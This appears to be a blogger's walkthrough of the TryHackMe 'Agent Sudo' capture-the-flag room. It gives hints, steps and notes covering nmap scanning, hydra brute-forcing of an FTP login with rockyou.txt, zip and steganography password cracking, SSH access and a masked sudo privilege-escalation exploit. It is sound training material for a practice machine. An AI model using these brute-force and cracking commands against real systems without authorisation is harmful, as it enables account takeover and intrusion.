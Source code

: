 ```yaml
---
title: Agent Sudo TryHackMe Walkthrough
author: Mr Ash
published: 2022-07-09
lastUpdated: 2022-11-05
url: agent-sudo
type: post
cover:
    image: https://p146.p4.n0.cdn.getcloudapp.com/items/WnuDq4KN/00cd5204-7161-4728-ae1b-8552248e9747.jpg?v=40fdd0801164d7a95b5a5487f11cf83b
categories: Writeup
tags:
    - TryHackMe
    - Capture The Flag
    - Walkthrough
---
```


Welcome back to another [TryHackMe](https://tryhackme.com/) room, the challenge today is [Agent Sudo](https://tryhackme.com/room/agentsudoctf).

No spoilers below within the hints, just some good ol’ fashion hints to help you out on your agent sudo journey. For more detail, with some spoilers, see the steps section, and for everything I did, see my notes. If you prefer a video walkthrough, well that’s linked below, and if you want my personal thoughts on the room, check out the reflection via the video.

*Disclaimer, there are spoilers for this room below, please use the hints if you do not want any steps spoiled. Room creator credit: [DesKel](https://tryhackme.com/p/DesKel).*

<!-- <figure class="wp-block-embed is-type-video is-provider-youtube wp-block-embed-youtube wp-embed-aspect-16-9 wp-has-aspect-ratio"><div class="wp-block-embed__wrapper"><iframe allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen="" frameborder="0" height="450" loading="lazy" src="https://www.youtube.com/embed/PYQ51M8qTbw?feature=oembed" title="Agent Sudo // TryHackMe Walkthrough" width="800"></iframe></div></figure><div id="hs-embed-container" style="position:relative;display:flex;width:100%;height:300px;"><div id="hs-embed-placeholder" style="position:absolute;top:0;bottom:0;left:0;right:0;margin:10px;overflow:auto;font-size: 14px !important">[ Agent Sudo // TryHackMe Walkthrough – powered by Happy Scribe](https://www.happyscribe.com/?utm_source=embed-player&utm_term=b764bacd7be54743bcb64bd390e2ee4a "Listen: Agent Sudo // TryHackMe Walkthrough was transcribed from audio to text using Happy Scribe")

</div><div class="hs-embed" data-hide_video="true" data-id="b764bacd7be54743bcb64bd390e2ee4a" data-private_text="true"></div><script>
var js=document.createElement('script');js.type='text/javascript';js.async=true;js.src='https://embed.happyscribe.co/main.js';document.head.appendChild(js);
</script></div><style type="text/css"> ._h1s512 { white-space: nowrap; } </style> -->

## Hints

Task 2 Enumerate

- How many open ports? `nmap` can show you.
- How you redirect yourself to a secret page? Read the note on `index.html`
- What is the agent name? Use the web dev tools to change `user-*****`

Task 3 Hash cracking and brute-force

- FTP password. Use `hydra` with `rockyou.txt`
- Zip file password. Use `binwalk` to *really* see the `png`, then `zip2jon`.
- steg password. Use `steghide` to *really* see the `jpg`.
- Who is the other agent (in full name)? `cat` your new `message.txt`
- SSH password. `base64 -d`

Task 4 Capture the user flag

- What is the user flag? Once in, simple `cat`
- What is the incident of the photo called? Use OSINT via bing.

<!-- <div class="elementor elementor-5483" data-elementor-id="5483" data-elementor-type="section"><div class="elementor-section-wrap"> <section class="elementor-section elementor-top-section elementor-element elementor-element-32d8c94 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="32d8c94" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-default"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-top-column elementor-element elementor-element-5e7c56e" data-element_type="column" data-id="5e7c56e"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"> <section class="elementor-section elementor-inner-section elementor-element elementor-element-fc64076 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="fc64076" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-no"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-inner-column elementor-element elementor-element-f7d6b37" data-element_type="column" data-id="f7d6b37"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"><div class="elementor-element elementor-element-4c75247 elementor-widget elementor-widget-text-editor" data-element_type="widget" data-id="4c75247" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="text-editor.default"><div class="elementor-widget-container"><div class="elementor-text-editor elementor-clearfix">Recent Posts

 </div> </div> </div><div class="elementor-element elementor-element-322ad34 elementor-widget elementor-widget-elementskit-post-list" data-element_type="widget" data-id="322ad34" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="elementskit-post-list.default"><div class="elementor-widget-container"><div class="ekit-wid-con">- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">How To Fix TryHackMe VPN Not Working | Troubleshooting OpenVPN</span> </div> ](https://mrash.co/how-to-fix-tryhackme-vpn-not-working-troubleshooting-openvpn/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">Crack The Hash TryHackMe Walkthrough</span> </div> ](https://mrash.co/crack-the-hash-tryhackme-walkthrough/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">100 Days Of Hacking</span> </div> ](https://mrash.co/100daysofhacking/)
 
 </div> </div> </div> </div> </div> </div> </div> </div> </section> <section class="elementor-section elementor-inner-section elementor-element elementor-element-d91d33b elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="d91d33b" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-no"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-inner-column elementor-element elementor-element-6dee180" data-element_type="column" data-id="6dee180"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"><div class="elementor-element elementor-element-7acfc36 elementor-widget elementor-widget-text-editor" data-element_type="widget" data-id="7acfc36" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="text-editor.default"><div class="elementor-widget-container"><div class="elementor-text-editor elementor-clearfix">Popular Posts

 </div> </div> </div><div class="elementor-element elementor-element-7b9396d elementor-widget elementor-widget-elementskit-post-list" data-element_type="widget" data-id="7b9396d" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="elementskit-post-list.default"><div class="elementor-widget-container"><div class="ekit-wid-con">- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">OneNote to Notion - Moving Apps</span> </div> ](https://mrash.co/onenote-to-notion-moving-apps/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">100 Days Of Hacking</span> </div> ](https://mrash.co/100daysofhacking/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">Hackers Learning Path</span> </div> ](https://mrash.co/learning-path-for-beginner-hacker/)
 
 </div> </div> </div> </div> </div> </div> </div> </div> </section><div class="elementor-element elementor-element-2763e2a elementor-widget elementor-widget-text-editor" data-element_type="widget" data-id="2763e2a" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="text-editor.default"><div class="elementor-widget-container"><div class="elementor-text-editor elementor-clearfix">\*Shamless self-promotion, I know.

 </div> </div> </div> </div> </div> </div> </div> </div> </section> </div> </div> -->

## Task 5 Privilege escalation
- CVE number for the escalation. `sudo -*`
- What is the root flag? `cat /root/root.txt`
- (Bonus) Who is Agent R? see `root.txt`

## Steps

1. Task 2 Enumerate, as always, start by scanning the machine, I used `nmap -vv -A <ip>`. We can see ports 21, 22 and 80, so most likely we have a web server running, let’s confirm this.
2. Visithttp://&lt;ip&gt; to get the next clue, change the user-agent by going to Inspect (DevTools) &gt; Customise and control DevTools &gt; More Tools &gt; Network conditions, User agent. Here you can change the user-agent by disabling/unchecking Use browser default. Reload the page, and you’re done!
3. Task 3 Hash cracking and brute-force. Now that leads us back to port 21, ftp, so now armed with a username, let’s use brute force. Use hydra -t 32 -l \*\*\*\*\* -P /usr/share/wordlists/rockyou.txt -vV &lt;ip&gt; ftp against the target and you’ll be able to find the password, so then log in using ftp &lt;ip&gt;, and mget \* to copy all the files.
4. It’s time to examine what we’ve found, run file \* to show some basic info, but use binwalk to show hidden info within the files. Then binwalk -e cutie.png to pull out the data, again running file \* will help here with new files. Use zip2john 8702.zip &gt; 8702.hashes to extract the hash, then john 8702.hashes to crack it.
5. The new text file provides a cryptic message, we can decode this using echo \*\*\*\*\*\*\*\* | base64 -d. That’s the steg password, use `steghide extract -sf cute-alien.jpg -p ******` to gain SSH creds, then `ssh *****@<ip>`. Next up, Task 4 Capture the user flag.
6. Now copy the files over via `scp -r * *****@<ip>: .`, use a bit of OSINT and find the CVE. For more, use my notes below or hints above for help, enjoy!

## Notes

nmap: `nmap -vv -A <ip>`

```bash
Completed NSE at 02:52, 0.00s elapsed
Nmap scan report for 10.10.253.182
Host is up, received conn-refused (0.32s latency).
Scanned at 2022-07-06 02:51:25 EDT for 42s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds

```

Visit: `http://<ip>` Changed User-Agent \[[Link](https://www.searchenginejournal.com/change-user-agent/368448/)\], redirected: `http://<ip>/agent_C_attention.php`, Found name Agent C.

```bash
Attention *****,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R

```

Crack FTP: `hydra -t 32 -l ***** -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp` \[[LINK](https://www.binarytides.com/crack-ftp-passwords-with-thc-hydra-tutorial/)\]

```bash
[21][ftp] host: <ip>  login: *****   ****password: *****

```

Logged into FTP `ftp <ip>`, ran `mget *` to get all the files.

Examine images: `binwalk`, extracted image data: `binwalk -e cutie.png`.

Installed `sudo apt install 7zip` \[[Link](https://ubuntuforums.org/showthread.php?t=1416364), [Link](https://super-unix.com/ubuntu/ubuntu-extracting-zip-file-fails-giving-error-need-pk-compat-v5-1/)\] `7z e 365.zlib`.

Cracking zip file \[[Link](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)\]: `zip2john 8702.zip > 8702.hashes`, `john 8702.hashes`

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
*****            ****(8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE 2/3 (2022-07-08 01:35) 2.222g/s 101044p/s 101044c/s 101044C/s 123456..ferrises
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

`cat To_agentR.txt`

```bash
Agent C,

We need to send the picture to **'********'** as soon as possible!

By,
Agent R

```

Finding hash value: `echo ******** | base64 -d`, `steghide extract -sf cute-alien.jpg -p ******`.

```bash
Hi *****,

Glad you find this message. Your login password is ****************

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
*****

```

Connect via SSH: `ssh *****@<ip>`, copy over image: `scp -r * *****@<ip>: .` \[[Link](https://youtu.be/gGe1cNgfHwE), [Link](https://www.freecodecamp.org/news/scp-linux-command-example-how-to-ssh-file-transfer-from-remote-to-local/)\].

Ran `sudo -*`, searched ‘exploit sudo \*\*\*\*\*\*\*\*\*\*\*\*’, found exploit `sudo ***** *********`

```bash
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
********************************

By,
****** a.k.a Agent R

```

{{<youtube PYQ51M8qTbw>}}

This is day 54 of [#100DaysOfHacking](https://mrashleyball.com/100daysofhacking/) on my [Hackers Learning Path](https://mrashleyball.com/learning-path-for-beginner-hacker/). [Subscribe](https://go.mrash.co/newsletter) for [CyberSec](https://mrashleyball.com/starting-out-in-cyber-security/) updates or [read](https://mrashleyball.com/blog) more, happy hacking, coding, and ‘learning.